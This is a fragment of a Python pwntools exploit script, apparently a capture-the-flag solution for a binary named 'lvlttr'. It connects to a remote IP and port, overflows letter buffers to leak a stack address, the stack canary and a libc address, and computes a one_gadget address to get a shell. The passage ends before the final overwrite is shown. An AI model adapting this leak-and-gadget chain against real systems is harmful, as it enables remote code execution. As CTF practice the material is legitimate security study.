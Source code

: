 ```python
        addr_input(comp, con)
    elif sel == 2:
        write_letter(buf)
    else:
        delete(ptr)

def go_out():
    p.sendlineafter('> ', '3')

#p = process('./lvlttr')
p = remote('43.203.26.108', 217)

#libc_main_231 = 0x21c87
libc_main_231 = 0x21bf7
one_gadget = [0x4f3d5, 0x4f432, 0x10a41c]

input()

# stack leak
payload = b'A' * 0x30
send_letter(2, buf=payload)

payload = b'B' * 0x30
letter_check(2, buf=payload)

p.recvuntil(b'B' * 0x30)
stack_leak = p.recvline().strip()
stack_leak = u64(stack_leak.ljust(8, b'\x00'))
print(hex(stack_leak))

# canary leak
payload = b'A' * 56 + b'\n'
send_letter(2, buf=payload)

payload = b'B' * 0x30
letter_check(2, buf=payload)

p.recvline()
canary_leak = u64(p.recv(7).rjust(8, b'\x00'))
print(hex(canary_leak))

# libc leak
payload = b'A' * 0x48
send_letter(2, buf=payload)

payload = b'B' * 0x30
letter_check(2, buf=payload)

p.recvuntil('AAAAAAAAAAAAAAAAAAAAAAAA')
leak = p.recvline().strip()
leak = u64(leak.ljust(8, b'\x00'))
print(hex(leak))

# one gagdget
libc_base = leak - libc_main_231
oneshot = libc_base + one_gadget[0]

#send_letter(1, comp='', con='asf')

# free

stack_addr = stack_leak - 0xd8

```